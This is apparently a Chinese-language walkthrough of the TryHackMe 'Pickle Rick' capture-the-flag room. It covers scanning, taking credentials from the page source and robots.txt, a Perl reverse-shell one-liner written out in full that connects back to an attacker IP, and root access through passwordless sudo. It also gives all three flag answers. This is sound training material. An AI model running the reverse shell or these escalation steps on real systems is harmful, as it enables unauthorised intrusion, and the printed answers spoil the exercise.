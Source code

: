 ```yaml
---
description: 本文相关内容：CTF靶机练习
cover: ../../.gitbook/assets/2857591-20230613025234763-662366994.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pickle Rick-练习

TryHackMe实验房间链接：[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## 任务目标

找到3个成分，将帮助瑞克制作他的药水，把自己从一个泡菜变回人类。

目标地址[https:/MACHINE-IP.p.thmlabs.com](https://10-10-253-251.p.thmlabs.com/) 此处为：https://10-10-253-251.p.thmlabs.com/

## 实践操作

```
端口扫描
nmap -T4 -sC -sV -p- 10.10.253.251  
```

![image-20220927120845431](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927120845431.png)

> 目标开放了两个端口：22/tcp ssh服务 80/tcp http服务

访问目标网站的http服务，查看网站源代码，获取到关于用户名的提示：

![image-20220927121045775](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927121045775.png)

> 用户名为：R1ckRul3s

```
目录和文件扫描
gobuster dir -u http://10.10.253.251 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,css,js,py
```

![image-20220927122325445](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927122325445.png)

> 扫描到
>
> /index.html
>
> /login.php
>
> /assets
>
> /portal.php
>
> /robots.txt

去目标站点访问以上页面和文件：

```
index.html是首页，和之前访问网站时的默认页面一样，
login.php是登陆页面（这个要关注一下），
assets目录下有一些网站资源文件（看了一下没啥特别的），
portal.php访问时会自动跳转到之前的login.php页面，估计要登陆后才能看到，
robot.txt文件有一串字符为Wubbalubbadubdub，可能是登陆密码。
```

![image-20220927123458547](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123458547.png)

![image-20220927123534743](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123534743.png)

![image-20220927123419683](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123419683.png)

在登陆页面尝试使用之前得到的用户名以及在robots文件中得到的字符进行登陆，发现能够登陆成功，并给出一个命令执行面板：

![image-20220927124227553](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124227553.png)

利用命令面板，输入命令查找文件信息，找到第一个flag（无法通过cat命令查看，但可通过url路径进行访问）：

![image-20220927124643763](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124643763.png)

![image-20220927124733364](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124733364.png)

> 第一个flag是：mr. meeseek hair

继续探索命令面板，第一次使用ls命令还看到了一些其他文件，现在尝试访问一下，denied.php是一个被禁止访问的页面，clue.txt提示我们在文件系统中查找其他成分：

![image-20220927125210820](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927125210820.png)

利用网站所提供的命令面板建立反向shell（这里试了很多语言的反向shell，发现Perl语言的shell可行），首先在攻击机终端建立监听器，查看该服务器是否支持Perl（命令：which Perl），再执行Perl的反向shell命令：

![image-20220927131746063](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927131746063.png)

反向shell命令内容参考（修改ip、端口和攻击机匹配）：https://github.com/security-cheatsheet/reverse-shell-cheatsheet

```
perl -e 'use Socket;$i="10.14.30.69";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20220927133646735](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927133646735.png)

成功建立反向shell，查找flag即可，第一个flag我们已经知道 我们找其他的（当前目录没有目标flag时，尝试找/home /root等关键目录）：

![image-20220927133924593](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927133924593.png)

![image-20220927134805181](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927134805181.png)

> 第二个flag是：1 jerry tear

> 上图中的 cat 'second ingredients' 之所以加单引号是因为该名称中间存在空格
>
> 如果不加引号 则只能识别到second而不是second ingredients
>
> 也可以尝试用其他方式处理：second\ ingredients或者"second ingredients"

尝试cd /root，发现无法移动到/root目录下，

输入sudo -l 列出目前用户可执行与无法执行的指令，发现我们可以通过sudo免密码使用root用户：

![image-20220927135922502](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927135922502.png)

![image-20220927135847160](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927135847160.png)

> 第三个flag是：fleeb juice

关于第二个flag和第三个flag的其他解法

利用登陆之后网页所提供的命令面板：

```
输入ls会显示当前网站根目录下的目录及文件
输入sudo -l列出目前用户可执行与无法执行的指令，发现我们可以通过sudo免密码使用root用户

此时，可以使用sudo ls命令找到/home目录以及/root下的flag文件，
对于/home目录，也可以通过组合命令（cd /home;ls;pwd、cd /home/rick/;ls;pwd）去找flag文件   

如果想通过网站url访问flag文件内容，可以使用sudo cp命令复制flag文件到网站根目录，涉及的命令如下：
sudo ls /home
sudo ls /home/rick/
sudo cp /home/rick/second\ ingredients ./second.txt   
sudo ls /root
sudo cp /root/3rd.txt . 

如果想直接在网页的命令面板界面查看flag内容，可以使用以下命令（当然前提还是要先找到flag文件的位置）：
less /home/rick/second\ ingredients
sudo less /root/3rd.txt
```

![image-20220927143427676](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927143427676.png)

![image-20220927143605462](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927143605462.png)

![image-20220927151113944](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927151113944.png)

![image-20220927151156861](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927151156861.png)

> 关于less命令：less命令 的作用与more十分相似，都可以用来浏览文字档案的内容，不同的是less命令允许用户向前或向后浏览文件，而more命令只能向前浏览。

## 完整答案

![image-20220927140953884](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927140953884.png)
